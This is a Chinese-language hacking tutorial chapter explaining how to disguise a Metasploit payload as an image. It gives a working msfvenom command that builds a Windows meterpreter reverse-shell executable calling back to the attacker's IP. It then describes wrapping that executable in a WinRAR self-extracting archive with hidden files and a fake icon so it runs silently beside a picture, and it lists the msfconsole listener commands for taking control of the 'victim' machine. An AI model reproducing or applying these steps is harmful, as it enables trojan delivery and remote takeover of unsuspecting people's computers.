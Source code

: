 ##如何在图片中隐藏病毒（负载）
这一章节介绍的是使用msfvenom和WinRAR隐藏病毒，马上开始我们的教程
##测试环境
攻击者：Kali                                **IP地址:192.168.43.126**

victim：Windows7                            **IP地址:192.168.43.163**
##使用msfvenom生成Payload
关于这个话题难的就是如何将病毒隐藏起来，无论是隐藏在图片还是安装程序中，因为生成负载的话，我们之前的章节中有讲到过，就是使用msfvenom这个工具来生成
我们这边也演示一下如何生成负载（照顾一下第一次看到该章节的人）
只需要一条命令
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.126 LPORT=4444 -f exe > Windows.exe
```

**-p** *参数指的是Payload的类型*

**-LHOST** *参数指定的是本地Kali主机的IP地址，就是将TCP会话返回给谁*

**-LPORT** *参数指定的是返回TCP会话使用的本地端口*

**-f** *参数指定的是生成的文件类型*

![msfvenom](ch2/124/msfvenom.png)
##使用WinRAR隐藏病毒
生成该负载之后，我们还需要一个软件是WinRAR,这个什么用处你肯定想不到，我们就是利用该软件将病毒隐藏在该图片中

那么如何操作呢？
###准备一张ico图片
这个格式的图片我们可以使用png或者是jpg图片在线转换成ico，该格式是显示图标的
####首先打开在线生成ico文件的网址
![网站](ch2/124/site.png)
####选择需要上传的图片，选择后点击Upload

![图片](ch2/124/tu.png)
####选择只定义的icon文件格式
![格式](ch2/124/geshi.png)
####选择转换文件
![转换](ch2/124/zhuanhuan.png)
###打包负载和png文件，准备隐藏病毒
**注意：这个使用的图片文件是png而不是转换完成的ico文件**
####选中文件右键，点击添加到压缩文件
![文件](ch2/124/wenjian.png)

####选择创建自解压文件格式
![SFX](ch2/124/sfx.png)
####设置自解压文件参数
![shezhi](ch2/124/shezhi.png)
####点击设置选项
![option](ch2/124/yunxing.png)
**该选项设置的是当用户点击该自解压文件时，自动运行的文件，我们设置，自动打开一张hack图片和windows应用程序**
####将压缩文件中文件全部隐藏
![yincang](ch2/124/moshi.png)
为了让生成的文件看起来更加真实，我们将需要运行的文件全部隐藏
####选择图标文件
![ico](ch2/124/ico.png)
这一步是添加图标文件，为了也是让文件更加真实
###生成自解压文件
![shengcheng](ch2/124/shengcheng.png)

所有的参数都设置完成之后，我们就点击确定生成自解压文件

##设置监听器（如何这一部分内容不怎么熟悉，建议查看前几章节的介绍）

接下来我们需要让Victim下载该Payload文件，这方法就很多种了，这里不解释


我们使用msfconsole来设置监听器，需要注意的是设置监听器参数的时候需要和生成Payload文件的参数一样，不然不能返回TCP会话
```
use exploit/multi/handle
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.43.126
set LPORT 4444
```
接下来打开监听器
```
exploit
```

![exploit](ch2/124/exploit.png)

现在我们就等待Victim运行该Payload文件

![hack](ch2/124/hack.png)

我们现在已经可以看到收到了一个会话信息
![sessions](ch2/124/sessions.png)

现在就可以控制Victim的电脑，具体可以执行的操作，可以点击[链接](https://hxtop1.tk/ch2_123.html "meterpreter")查看，或者查看前几章节的内容

如果帮助到你了，希望可以得到你的打赏，谢谢[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")